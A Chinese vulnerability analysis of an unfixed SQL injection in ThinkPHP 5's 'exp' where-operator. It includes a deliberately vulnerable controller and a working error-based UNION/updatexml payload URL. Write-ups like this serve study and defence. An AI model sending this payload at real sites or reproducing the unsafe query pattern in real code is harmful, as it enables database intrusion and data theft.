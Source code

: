 Thinkphp5 全版本
================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **select**
方法注入）。次漏洞存在于 **Mysql** 类的 **parseWhereItem**
方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL**
语句，导致 **SQL注入漏洞** 的产生。

二、漏洞影响
------------

ThinkPHP5全版本

三、复现过程
------------

### 漏洞环境

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.0.10 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.4.0",
        "topthink/framework": "5.0.10"
    },

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username');
            $result = db('users')->where('username','exp',$username)->select();
            return 'select success';
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'mochazz');

### poc

    http://0-sec.org:8000/index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5全版本sql注入漏洞/media/rId26.png)

### 漏洞分析

由于官方根本不认为这是一个漏洞，而认为这是他们提供的一个功能，所以官方并没有对这个问题进行修复。但笔者认为这里的数据过滤还是存在问题的，所以我们还是来分析分析这个漏洞。

程序默认调用 **Request** 类的 **get** 方法中会调用该类的 **input**
方法，但是该方法默认情况下并没有对数据进行很好的过滤，所以用户输入的数据会原样进入框架的
**SQL** 查询方法中。首先程序先调用 **Query** 类的 **where** 方法，通过其
**parseWhereExp** 方法分析查询表达式，然后再返回并继续调用 **select**
方法准备开始构建 **select** 语句。

![2.png](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5全版本sql注入漏洞/media/rId28.png)

上面的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql** 类，该类继承于 **Builder** 类，所以接着会调用 **Builder** 类的
**select** 方法。在 **select** 方法中，程序会对 **SQL**
语句模板用变量填充，其中用来填充 **%WHERE%**
的变量中存在用户输入的数据。我们跟进这个 **where**
分析函数，会发现其会调用生成查询条件 **SQL** 语句的 **buildWhere**
函数。

![3.png](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5全版本sql注入漏洞/media/rId29.png)

继续跟进 **buildWhere** 函数，发现用户可控数据又被传入了
**parseWhereItem** where子单元分析函数。我们发现当操作符等于 **EXP**
时，将来自用户的数据直接拼接进了 **SQL** 语句，最终导致了
**SQL注入漏洞** 。

![4.png](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5全版本sql注入漏洞/media/rId30.png)

### 漏洞修复

未修复。

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![5.png](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5全版本sql注入漏洞/media/rId33.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
